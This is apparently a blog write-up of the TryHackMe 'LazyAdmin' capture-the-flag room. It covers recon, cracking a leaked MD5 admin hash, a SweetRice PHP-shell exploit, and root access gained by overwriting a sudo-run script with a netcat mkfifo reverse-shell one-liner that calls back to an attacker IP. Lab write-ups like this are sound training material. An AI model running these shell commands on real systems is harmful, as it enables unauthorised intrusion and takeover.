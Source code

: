 ```yaml
---
layout: post
title: TryHackMe - LazyAdmin
date: 2023-04-23 17:24
category: ctf
author: akymos
tags: [ctf, TryHackMe]
toc: true
anchor: true
published: true
---
```


# Room info
- **Name**: LazyAdmin
- **Link**: [https://tryhackme.com/room/lazyadmin](https://tryhackme.com/room/lazyadmin){:target="_blank"}
- **Subscription**: Free
- **Difficulty**: Easy
- **Description**: Easy linux machine to practice your skills

## Questions
1. What is the user flag?
2. What is the root flag?

# Step 0 - Recon
## Nmap
``` bash
$ nmap -sC -sV 10.10.26.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 21:28 CEST
Nmap scan report for 10.10.26.136
Host is up (0.082s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 497cf741104373da2ce6389586f8e0f0 (RSA)
|   256 2fd7c44ce81b5a9044dfc0638c72ae55 (ECDSA)
|_  256 61846227c6c32917dd27459e29cb905e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.88 seconds
````
Nice, port 80 is open, but nothing interesting on it, only the default Apache page.
![LazyAdmin - Apache default page](/assets/images/ctf-lazyadmin/01.png){:class="post-image"}

## Gobuster
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136 -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/content              (Status: 301) [Size: 314] [--> http://10.10.26.136/content/]
/index.html           (Status: 200) [Size: 11321]
/server-status        (Status: 403) [Size: 277]
```
We have a 'strange' directory: `/content`. Let's check it out.
![LazyAdmin - /content directory](/assets/images/ctf-lazyadmin/02.png){:class="post-image"}

## Gobuster on /content
``` bash
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.26.136/content -q
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.26.136/content/_themes/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/as/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.26.136/content/attachment/]
/images               (Status: 301) [Size: 321] [--> http://10.10.26.136/content/images/]
/inc                  (Status: 301) [Size: 318] [--> http://10.10.26.136/content/inc/]
/index.php            (Status: 200) [Size: 2198]
/js                   (Status: 301) [Size: 317] [--> http://10.10.26.136/content/js/]
```
Directory index is enabled. `/as` contains the admin panel of the website, but we don't have any credentials (YET).
The directory `/inc` contains another folder: `/inc/mysql_backup`. Inside it, we have a file called `mysql_bakup_20191129023059-1.5.1.sql`. Let's download it and check it out.
```php
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
......
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
......
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```
We have found the credentials for the admin panel: `manager:42f749ade7f9e195bf475f37a44cafcb` (MD5 hash).

## John the Ripper
``` bash
$ echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt && john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
***********      (?)     
1g 0:00:00:00 DONE (2023-04-24 21:59) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
So the admin account is:
- Username: `manager`
- Password: `***********`
![LazyAdmin - Admin panel](/assets/images/ctf-lazyadmin/03.png){:class="post-image"}

## Exploit
In this version of SweetRice, there is a vulnerability that allows us to use a PHP shell. We can use it to get a reverse shell.
[https://www.exploit-db.com/exploits/40700](https://www.exploit-db.com/exploits/40700){:target="_blank"}

# Question 1 - What is the user flag?
```sh
$ nc -lnvp 9001
listening on [any] 9001 ...
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /home/itguy/user.txt
THM{***************************}
````
The user flag is: `THM{***************************}`

# Question 2 - What is the root flag?
## Privilege escalation
```sh
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

$ ls -lha /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f

$ # We can modify the file /etc/copy.sh
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f" > /etc/copy.sh
$ cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.32.129 9002 >/tmp/f

$ sudo /usr/bin/perl /home/itguy/backup.pl
```

## Root.txt
```sh
$ nc -lnvp 9002
listening on [any] 9002 ...
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
THM{***************************}
```
The root flag is: `THM{***************************}`